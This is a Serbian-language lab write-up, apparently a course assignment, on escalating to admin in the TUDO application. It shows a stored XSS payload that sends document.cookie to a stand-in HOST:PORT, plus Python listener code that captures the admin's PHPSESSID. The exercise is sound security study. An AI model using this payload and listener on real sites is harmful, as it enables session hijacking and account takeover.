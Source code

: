 # Zadatak 2 - Dobijanje admin privilegija

## Uvod

Analizirana je aplikacija **TUDO**, sa ciljem da se demonstrira eskalacija privilegija do administratorskog naloga.

Za identifikaciju ranjivosti korišćen je alat **ProgPilot**, a zatim je razvijen *Python* skript koji koristi **Stored XSS** ranjivost kako bi se ukrao administratorski session cookie.

ProgPilot je prijavio sledeće relevantne ranjivosti:

![image.png](img/image.png)

![image.png](img/image%201.png)

Na liniji 40, se nalazi kontaminirana (tainted) vrednost, odnosno vrednost koja se iz baze direktno ispisuje u HTML atribut bez ikakvog enkodovanja.

$row[1] dolazi iz upita bazi, pošto je to korisnički unos, sadržaj baze podataka je kontrolisan od strane napadača. To važi za sva 3 polja: username, password i description. Mi u napadu koristimo polje description.

Ove ranjivosti omogućavaju ubacivanje JavaScript koda koji se izvršava prilikom posete admina.

## Opis skripta

Skript je napisan u *Python*-u i koristi biblioteku *requests* za komunikaciju sa aplikacijom i *socket* za presretanje HTTP zahteva.

### Ubacivanje XSS payload-a

Funkcija **set_desc()** ubacuje maliciozni JavaScript kod u polje description na korisničkom profilu:

```html
<script>
document.write('<img src=http://HOST:PORT/'+document.cookie+' />');
</script>
```

Ovaj payload čini da se prilikom učitavanja stranice korisničkog profila od strane admina, njegov session cookie pošalje napadaču putem HTTP GET zahteva.

### Presretanje admin cookie-ja

Funkcija **get_admin_session()** podiže TCP server i čeka dolaznu konekciju od adminovog browsera. Kada admin otvori kompromitovanu stranicu, payload se izvršava i kolačić (PHPSESSID) se šalje napadaču.

Kod za presretanje izgleda ovako:

```python
(sock_c, ip_c) = s.accept()
get_request = sock_c.recv(4096)
admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
admin_cookie = admin_cookie.split('=')[1]
print("[+] Stole admin's cookie:", admin_cookie)
```

Na ovaj način napadač dobija validan admin session cookie i može da preuzme administratorske privilegije u aplikaciji.

## Analiza korišćenja ProgPilot nalaza

Stored XSS u profile.php: iskorišćen direktno za ubacivanje JavaScript koda koji krade cookie.